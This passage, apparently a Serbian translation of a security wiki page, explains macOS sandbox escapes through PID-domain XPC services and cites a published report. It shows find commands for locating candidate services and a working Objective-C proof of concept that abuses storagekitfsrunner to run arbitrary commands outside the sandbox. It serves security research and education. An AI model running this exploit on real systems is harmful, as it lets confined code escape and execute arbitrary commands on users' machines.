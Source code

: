 ```objectivec
}
}
```
### Dostupne PID Mach usluge

Ove Mach usluge su prvobitno zloupotrebljene da [pobegnu iz sandboxes u ovom izveštaju](https://jhftss.github.io/A-New-Era-of-macOS-Sandbox-Escapes/). U to vreme, **sve XPC usluge koje su potrebne** aplikaciji i njenom okviru bile su vidljive u PID domenu aplikacije (to su Mach usluge sa `ServiceType` kao `Application`).

Da bi se **kontaktirala XPC usluga PID domena**, potrebno je samo registrovati je unutar aplikacije sa linijom kao što je:
```objectivec
[[NSBundle bundleWithPath:@“/System/Library/PrivateFrameworks/ShoveService.framework"]load];
```
Pored toga, moguće je pronaći sve **Application** Mach usluge pretražujući unutar `System/Library/xpc/launchd.plist` za `<string>Application</string>`.

Drugi način da se pronađu validne xpc usluge je da se proveri one u:
```bash
find /System/Library/Frameworks -name "*.xpc"
find /System/Library/PrivateFrameworks -name "*.xpc"
```
Nekoliko primera zloupotrebe ove tehnike može se naći u [**originalnom izveštaju**](https://jhftss.github.io/A-New-Era-of-macOS-Sandbox-Escapes/), međutim, sledeći su neki sažeti primeri.

#### /System/Library/PrivateFrameworks/StorageKit.framework/XPCServices/storagekitfsrunner.xpc

Ova usluga omogućava svaku XPC vezu vraćajući uvek `YES`, a metoda `runTask:arguments:withReply:` izvršava proizvoljnu komandu sa proizvoljnim parametrima.

Eksploit je bio "tako jednostavan kao":
```objectivec
@protocol SKRemoteTaskRunnerProtocol
-(void)runTask:(NSURL *)task arguments:(NSArray *)args withReply:(void (^)(NSNumber *, NSError *))reply;
@end

void exploit_storagekitfsrunner(void) {
[[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/StorageKit.framework"] load];
NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.storagekitfsrunner"];
conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(SKRemoteTaskRunnerProtocol)];
[conn setInterruptionHandler:^{NSLog(@"connection interrupted!");}];
[conn setInvalidationHandler:^{NSLog(@"connection invalidated!");}];
[conn resume];

[[conn remoteObjectProxy] runTask:[NSURL fileURLWithPath:@"/usr/bin/touch"] arguments:@[@"/tmp/sbx"] withReply:^(NSNumber *bSucc, NSError *error) {
NSLog(@"run task result:%@, error:%@", bSucc, error);
}];
}
```
#### /System/Library/PrivateFrameworks/AudioAnalyticsInternal.framework/XPCServices/AudioAnalyticsHelperService.xpc
